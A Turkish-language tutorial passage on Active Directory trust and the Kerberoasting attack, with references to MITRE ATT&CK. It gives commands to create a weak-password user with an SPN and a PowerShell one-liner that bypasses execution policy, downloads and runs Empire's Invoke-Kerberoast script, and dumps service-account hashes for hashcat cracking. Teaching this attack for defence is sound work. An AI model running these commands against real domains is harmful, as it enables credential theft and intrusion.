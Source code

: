 ![](/assets/images/Aspose.Words.c20b2ad4-4952-4636-b5d1-fe1c35aff6d2.021.png)

## Active Directory'de Trust
Active directory ortamında trust ağ üzerindeki çeşitli kaynaklara, kullanıcılara, gruplara ve bilgisayarlara erişilmesini
mümkün kılar. Bu işlem iki domain arasında kimlik doğrulama ile gerçekleşir. İki adımlı bir süreçtir:
1. Trust sağlanır
2. İzinler atanır.

![](/assets/images/Aspose.Words.c20b2ad4-4952-4636-b5d1-fe1c35aff6d2.022.png)
Trust işlemi sağlanırken önceden bahsettiğimiz kerberos kimlik doğrulama aşamalarından geçilir. İlerleyen kısımlarda
bahsedeceğimiz kerberoast isimli saldırı tipinde bu trust aşamasını hedef alıyor olacağız.

## Kerberoast
Kerberoasting, saldırganların active directory ortamındaki servis hesaplarınının kimlik bilgilerine offline bir şekilde brute
force yapabilmesidir. Bu saldırı legacy windows istemcilerinin active directory tarafından desteklenmesi, kerberos
ticketlarının şifrelenmesinde ve imzalanma türünden kaynaklanmaktadır. Bir kullanıcı spesifik bir kaynağı kullanmak istediği
zaman imzalı bir kerberos ticket'ı alırlar, imzalama işlemi ise o servisi yürüten hesabın NTLM hashi ile yapılır. Sorun da
buradan kaynaklanmaktadır.
Aşağıdaki komut ile bu durumu simüle etmek amacıyla bir kullanıcı ardından ise bir servis oluşturuyoruz.

(% highlight powershell %)

net user kullanici1 Passw0rd! /ADD /DOMAIN
setspn -s http/<domain>:80 kullanici1

(% endhighlight %)

ardından github üzerinden bu saldırıyı gerçekleştiren scripti indirip çalıştırıyoruz:

(% highlight powershell %)
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII hash.txt"
(% endhighlight %)

Elde edilen hash hashcat ile kırılabilir ve parola elde edilebilir.

![](/assets/images/Aspose.Words.c20b2ad4-4952-4636-b5d1-fe1c35aff6d2.023.png)

## Kaynakça ve İleri Okuma
- <https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domainservices-overview>
- <https://ldap.com/>
- <https://web.mit.edu/kerberos/>
- <https://www.varonis.com/blog/kerberos-authentication-explained/>
- <https://attack.mitre.org/techniques/T1558/003/>